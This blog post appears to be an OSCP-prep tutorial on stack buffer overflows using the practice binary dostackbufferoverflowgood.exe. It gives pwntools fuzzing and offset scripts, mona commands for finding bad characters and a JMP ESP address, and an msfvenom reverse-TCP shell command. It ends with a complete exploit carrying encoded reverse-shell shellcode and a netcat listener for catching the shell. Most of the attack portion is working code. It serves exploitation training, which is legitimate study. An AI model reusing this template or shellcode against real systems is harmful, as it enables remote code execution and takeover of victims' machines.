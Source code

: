 ```yaml
---
layout: post
title:  "What is stack bufferoverflow? And steps to be followed to smash it!(dostackbufferoverflowgood)"
date:   2020-02-05 08:07:19
categories: [buffer-overflow,oscp-prep]
comments: true
---
```

## How the memory is organised?

![memory-structure](memory-img.png)

The memory is orgainsed in the way kernel at top and text is at bottom. Since it is stack bufferoverflow we are concentrating on stack.

<!--more-->
## How the stack bufferoverflow works?

![stack-img](stack-img.png)

To make things clear from the above picture the stack is organised like

ESP ---> Buffer space ---> EBP ---> EIP ---> PTR to arg

ESP is the current stack pointer. EBP is the base pointer for the current stack frame.

When you call a function, typically space is reserved on the stack for local variables. This space is usually referenced via EBP (all local variables and function parameters are a known constant offset from this register for the duration of the function call.) ESP, on the other hand, will change during the function call as other functions are called, or as temporary stack space is used for partial operation results.

In stack bufferoverflow, we are going to overflow the buffer space such that it overflow to EBP and to EIP. And finally we will find the exact offset to control EIP to inject our malcious shell code.

To demonstrate binary used is dostackbufferoverflowgood.exe

## Steps to be followed for smashing stack bufferoverflow

Fuzzing --> finding offset --> Finding bad character --> Controlling EIP --> Generating shell code

#### Step 1: Fuzzing

In this step, we just need to find the buffer length or offset which crash the application and overwrite the EIP.

```python
from pwn import *
p = connect('192.168.1.8', 31337, level='error')
p.sendline('A'*1000)
p.recvline()
p.close()
```

#### Step 2: Finding the exact offset

Add working folder in mona:

`!mona config -set workingfolder C:\logs\%p`

In immunity debugger,

`!mona pc 1000` --> This will create a pattern of 1000 bytes

> **Tip:** Also remember sometimes pattern shown in the immunity debugger console may be truncated. So always copy from the log


Modify the python code
```python
from pwn import *
pattern = "" # update the pattern here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(pattern)
p.recvline()
p.close()
```

After executing the python script take the EIP value and execute the following command to find the exact offset:

`!mona findmsp <EIP VALUE>` (or)
`!mona pattern_offset <EIP VALUE>`


#### Step 3: Finding bad characters

To find badcharacter, first we need to create bytearray.

`!mona bytearray` --> This will generate the byte array starting from \x00 to \xff

Modify the python code 

```python
from pwn import *

offset = "A"*<offset_value> # Replace the <offset_value> with the offset value that we obtained from Step 2
bytearray = "" # update the bytearray here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + 'BBBB' + bytearray)
p.recvline()
p.close()
```

Execute the python script

Compare the generated bytearray and bytearray after the BBBB end in the exe file using mona.

!mona compare -f C:\logs\dobufferoverflowgood\bytearray.bin -a <address_after_BBBB>

Now this will display the badcharacter.

> **TIP**: \x00 will always be the bad character. Some times if the program requires some special character like new-line feed('\n'), then the corresponding hex value will also be added to the badcharacter list.

#### Step 4: "RET to JMP ESP"

This step is important to control the flow of the program. We need to find the `JMP ESP ` statement in the program and also its address should not contain the bad characters.

`!mona jmp -r esp -cpb "\x00\x0A" ` (or)

`msf-nasm_shell` and find the hex value of `JMP ESP` which is `\xff\xe4`

Then execute the command
`!mona find "\xff\xe4" -m <your.exe>`

Add the value in little endianess format to the python program .


#### Step 5: Generating the shell code

This is the final step. Use msfvenom to generate shell code.

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b "\x00\x0A"`

So our final python program look like this

```python
from pwn import *

#offset = 146
#badchar = \x00\x0a
#jmpesp = 080414c3
nops = "\x90"
offset = "A"*146

shellcode = (
"\xba\x84\xf5\xee\x0c\xda\xd9\xd9\x74\x24\xf4\x5f\x29\xc9\xb1"
"\x52\x83\xc7\x04\x31\x57\x0e\x03\xd3\xfb\x0c\xf9\x27\xeb\x53"
"\x02\xd7\xec\x33\x8a\x32\xdd\x73\xe8\x37\x4e\x44\x7a\x15\x63"
"\x2f\x2e\x8d\xf0\x5d\xe7\xa2\xb1\xe8\xd1\x8d\x42\x40\x21\x8c"
"\xc0\x9b\x76\x6e\xf8\x53\x8b\x6f\x3d\x89\x66\x3d\x96\xc5\xd5"
"\xd1\x93\x90\xe5\x5a\xef\x35\x6e\xbf\xb8\x34\x5f\x6e\xb2\x6e"
"\x7f\x91\x17\x1b\x36\x89\x74\x26\x80\x22\x4e\xdc\x13\xe2\x9e"
"\x1d\xbf\xcb\x2e\xec\xc1\x0c\x88\x0f\xb4\x64\xea\xb2\xcf\xb3"
"\x90\x68\x45\x27\x32\xfa\xfd\x83\xc2\x2f\x9b\x40\xc8\x84\xef"
"\x0e\xcd\x1b\x23\x25\xe9\x90\xc2\xe9\x7b\xe2\xe0\x2d\x27\xb0"
"\x89\x74\x8d\x17\xb5\x66\x6e\xc7\x13\xed\x83\x1c\x2e\xac\xcb"
"\xd1\x03\x4e\x0c\x7e\x13\x3d\x3e\x21\x8f\xa9\x72\xaa\x09\x2e"
"\x74\x81\xee\xa0\x8b\x2a\x0f\xe9\x4f\x7e\x5f\x81\x66\xff\x34"
"\x51\x86\x2a\x9a\x01\x28\x85\x5b\xf1\x88\x75\x34\x1b\x07\xa9"
"\x24\x24\xcd\xc2\xcf\xdf\x86\x2c\xa7\xde\x50\xc5\xba\xe0\x4d"
"\x49\x32\x06\x07\x61\x12\x91\xb0\x18\x3f\x69\x20\xe4\x95\x14"
"\x62\x6e\x1a\xe9\x2d\x87\x57\xf9\xda\x67\x22\xa3\x4d\x77\x98"
"\xcb\x12\xea\x47\x0b\x5c\x17\xd0\x5c\x09\xe9\x29\x08\xa7\x50"
"\x80\x2e\x3a\x04\xeb\xea\xe1\xf5\xf2\xf3\x64\x41\xd1\xe3\xb0"
"\x4a\x5d\x57\x6d\x1d\x0b\x01\xcb\xf7\xfd\xfb\x85\xa4\x57\x6b"
"\x53\x87\x67\xed\x5c\xc2\x11\x11\xec\xbb\x67\x2e\xc1\x2b\x60"
"\x57\x3f\xcc\x8f\x82\xfb\xec\x6d\x06\xf6\x84\x2b\xc3\xbb\xc8"
"\xcb\x3e\xff\xf4\x4f\xca\x80\x02\x4f\xbf\x85\x4f\xd7\x2c\xf4"
"\xc0\xb2\x52\xab\xe1\x96"
)
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + '\xc3\x14\x04\x08' + nops*20 + shellcode)
p.recvline()

#print('Byte sent ',length)
p.close()
```

Spawn a listner to get shell of the victim machine

`nc -nlvp 4444`



